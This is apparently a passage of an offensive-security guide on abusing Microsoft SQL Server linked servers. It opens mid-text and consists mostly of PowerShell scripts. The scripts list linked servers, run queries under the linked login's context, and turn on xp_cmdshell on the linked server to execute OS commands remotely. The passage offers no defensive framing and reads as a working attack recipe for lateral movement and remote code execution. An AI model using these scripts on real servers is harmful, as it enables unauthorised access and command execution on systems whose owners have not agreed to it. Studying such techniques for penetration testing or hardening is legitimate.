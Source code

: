 First, you can enumerate linked servers and test the connectivity.

```powershell
$serverInstance = "your_sql_server_instance"
$linkedServers = Invoke-Sqlcmd -ServerInstance $serverInstance -Query "EXEC sp_linkedservers;"

foreach ($linkedServer in $linkedServers) {
    Write-Host "Testing Linked Server: $($linkedServer.SRV_NAME)"
    try {
        $query = "SELECT SYSTEM_USER AS CurrentUser, SESSION_USER AS SessionUser;"
        $result = Invoke-Sqlcmd -ServerInstance $serverInstance -Query $query -Database "master" -LinkedServer $linkedServer.SRV_NAME
        Write-Host "Connected as: $($result.CurrentUser) / $($result.SessionUser)"
    } catch {
        Write-Host "Failed to connect to $($linkedServer.SRV_NAME)"
    }
}
```

This script lists linked servers and attempts to connect to each one, printing the user context in which the connection is made.

#### 2. **Execute Commands on the Linked Server**

If the linked server allows, you can execute commands under the security context of the linked server's login.

```powershell
$serverInstance = "your_sql_server_instance"
$linkedServer = "LinkedServerName"
$command = "SELECT SYSTEM_USER AS CurrentUser, SESSION_USER AS SessionUser;"

$query = "EXEC [$linkedServer].master.dbo.sp_executesql N'$command';"
Invoke-Sqlcmd -ServerInstance $serverInstance -Query $query
```

This command executes a query on the linked server and prints the current and session users.

#### 3. **Abuse `xp_cmdshell` on the Linked Server**

If `xp_cmdshell` is enabled or can be enabled on the linked server, you can execute OS commands remotely.

```powershell
$serverInstance = "your_sql_server_instance"
$linkedServer = "LinkedServerName"

# Enable xp_cmdshell on the linked server if not enabled
$query = "EXEC [$linkedServer].master.dbo.sp_configure 'xp_cmdshell', 1; RECONFIGURE;"
Invoke-Sqlcmd -ServerInstance $serverInstance -Query $query

# Run a command on the linked server
$command = "whoami"
$query = "EXEC [$linkedServer].master.sys.xp_cmdshell '$command';"
$result = Invoke-Sqlcmd -ServerInstance $serverInstance -Query $query
Write-Host $result
```
